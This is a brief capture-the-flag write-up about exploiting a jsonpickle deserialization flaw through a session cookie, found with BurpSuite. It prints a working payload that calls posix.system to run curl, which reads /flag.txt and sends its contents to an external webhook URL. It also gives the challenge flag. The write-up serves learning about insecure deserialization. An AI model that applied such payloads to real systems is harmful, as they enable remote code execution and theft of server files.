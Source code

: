 # Another one pickles the dust writeup

Well, our first purpose is to find out why we are logging in as a guest, so let's check the cookies values in BurpSuite after loading the 
page:

![who(0)](https://user-images.githubusercontent.com/57829161/78892298-d2844b80-7a71-11ea-8017-689109b63f6e.png)

![who(1)](https://user-images.githubusercontent.com/57829161/78892307-d57f3c00-7a71-11ea-97ab-b548d37770e4.png)

![who(2)](https://user-images.githubusercontent.com/57829161/78892315-d7e19600-7a71-11ea-9add-c673bc5eb5ff.png)

Now all that we need to do is to perform the jsonpickle injection into the py/object parameter:
(check the ```get_payload.py``` script - the idea is to execute the shell on the server, read the ```flag.txt``` file and send 
it to our controlled webhook):

![who(3)](https://user-images.githubusercontent.com/57829161/78892319-dadc8680-7a71-11ea-83ee-ca199c043e8f.png)

the decoded payload looks like:
```
{"py/reduce": [{"py/function": "posix.system"}, {"py/tuple": ["curl -d $(cat /flag.txt) https://webhook.site/cf4e76ba-ad0b-4c72-a914-ffbd76c67f16"]}]}
```

![who(flag)](https://user-images.githubusercontent.com/57829161/78892324-dca64a00-7a71-11ea-825b-4b4ea29c3be4.png)

Flag: SPR{Y0U_JUST_H4CK3D_JSONPICKLE}
